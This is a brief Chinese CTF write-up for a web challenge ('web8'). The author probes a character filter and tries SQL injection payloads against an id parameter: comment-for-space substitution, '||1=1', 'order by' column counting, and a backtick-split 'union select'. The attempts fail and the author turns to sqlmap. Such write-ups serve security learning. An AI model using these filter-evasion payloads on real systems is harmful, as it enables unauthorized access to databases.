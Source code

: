 # web8
题目同web7,应该多加了过滤
直接测试过滤字符
',space,and被过滤

一样先判断列数
?id=-1/**/||/**/1=1/**/order/**/by/**/3
列数为3

查询回显位
?id=-1/**/||/**/1=1/union/**/select/**/by/**/1,2,3
果然这里union被过滤(可以用`分割union)

?id=-1/**/||/**/1=1/**/unio``n/**/select/**/1,2,3
发现,也被过滤,这里转变一下用堆叠方法(需用特定函数执行的sqlquery),同样不行
查了一下大佬们都写脚本绕过,这里我太菜,写不来,就直接跑sqlmap